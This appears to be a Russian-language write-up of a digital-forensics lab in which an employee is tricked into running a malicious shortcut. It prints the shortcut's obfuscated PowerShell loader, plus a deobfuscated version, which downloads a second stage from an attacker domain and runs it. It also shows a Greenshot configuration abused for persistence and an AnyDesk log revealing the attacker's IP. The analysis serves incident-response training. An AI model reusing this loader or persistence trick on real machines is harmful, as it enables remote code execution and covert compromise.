


---
## Scenario
>An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.  
>The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

---
# How to solve?
---
## Q1. What is the the web messaging app the employee used to talk to the attacker?

Исходя из сценария:
>After one day, he received a **notification** from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test.

Было решено проверить виндовые уведомления, которые находятся по пути:
`C:\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db`
Открыв с помощью `DB Browser for SQLite` и просмотрев таблицу `Notification` можно обнаружить уведомление из мессенджера **Телеграм**:



> Answer: **telegram**

## Q2. What is the password for the protected ZIP file sent by the attacker to the employee?

В этом же уведомлении из скрина выше находится пароль к архиву
> Answer: @1122d

## Q3. What domain did the attacker use to download the second stage of the malware?

Вот тут пришлось уже покопаться. Решил проверить содержимое архива, который конечно же находится в директории загрузок пользователя **OMEN**.
Архив содержит DOCX документ, и подозрительный LNK-файл ярлык с именем **templet.lnk**.

Анализ файла на VirusTotal подтвердил его вредоносность:


Воспользовавшись утилитой **LECmd.exe**:
```bash
LECmd.exe -f '.\templet.lnk' --csv result;                  
```
Далее открыв файл в TimelineExplorer, можно обнаружить, что данный файл запускает процесс **powershell.exe** с обфусцированными параметрами:

Запуск **Powershell.exe**
```bash
..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Параметры:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Моя попытка деобфускации кода:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function reverseCharArray($charArray){
  $charArray[$charArray.Length..0] -join('')
}; 
function processString($charArray ){
  $reversedCharArray = reverseCharArray $charArray;
  for($i = 0; $i -lt $reversedCharArray.Length; $i += 2) {
    try {
      $resultString += reverseCharArray $reversedCharArray.Substring($i,2)
    }
    catch {
      $resultString += $reversedCharArray.Substring($i,1)
      }
    };
  $resultString
};

$resultURL = processString 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$filePath = $env:APPDATA + '\' + ($resultURL -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$maliciousCode = wget $resultURL -UseBasicParsing;
[IO.File]::WriteAllText($filePath, $maliciousCode);
& $filePath;
sleep 3;
rm $filePath;
```
*Первая функция* переворачивает массив символов и возвращает его как строку.
*Вторая функция* переворачивает входной массив, затем обрабатывает его по два символа за раз, пытаясь перевернуть каждую пару и добавлять к результату; если остается один символ, добавляет его без изменения.

Проделав функции на данной строке мы получим домен `masherofmasters[.]cyou`
> Answer: masherofmasters.cyou

## Q4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Загуглив что токое LOLAPPS, мы обнаружим сайт https://lolapps-project.github.io/ который содержит легитимные утилиты, которые могут использоваться в нелегитимных целях. 

В директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружим данные установленных приложений. Среди них: **Adobe, AnyDesk, Greenshot, Microsoft**.

Согласно ресурсу LOLAPPS, приложение Greenshot как раз может использоваться для закрепления на хосте:
> Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the `Greenshot.ini` file in *"%AppData%\Greenshot\"*, add an `ExternalCommand` configuration, add a new name to the "Commands" parameter, add the payload in the `Commandline.<name>` and `Argument.<name>`, add the name to the "Destinations" parameter. 

Директория Greenshot как раз содержит конфиг файл `Greenshot.ini`. Проанализировав его содержимое, можно обнаружить вышеописанный метод закрепления:
```ini
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

> Answer: jlhgfjhdflghjhuhuh


## Q5. What is the complete path of the malicious file that the attacker used to achieve persistence

Тут необходимо указать полный путь до вредоносного файла из конфиг файла.

> Answer: C:\Users\OMEN\AppData\Local\Temp\templet.lnk

## Q6. What is the name of the application the attacker utilized for data exfiltration?

Ранее в директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружили данные установленных приложений. Среди них оказался **AnyDesk**. 

> Answer: AnyDesk

## Q7. What is the IP address of the attacker?
Рассмотрим содержимое директории **AnyDesk**, а именно файл `C:Users\OMEN\AppData\Roaming\AnyDesk\ad.trace`.

> Журнал **ad.trace** содержит отладочную информацию, что позволяет определить **IP-адрес**, с которого производилось подключение

Открыв его с помощью текстового редактора, можно увидеть логи ПО AnyDesk.

Поискав по словосочетанию `Connection established`, можно обнаружить следующую информацию:
```log
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Connection established.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Relay connector stopped.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380                       fiber.scheduler - Fiber 27 'relay_connector' (parent: 25) terminated.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   25                anynet.relay_conn - External address: 77.232.122.31:34791.
```

> Answer: 77.232.122.31
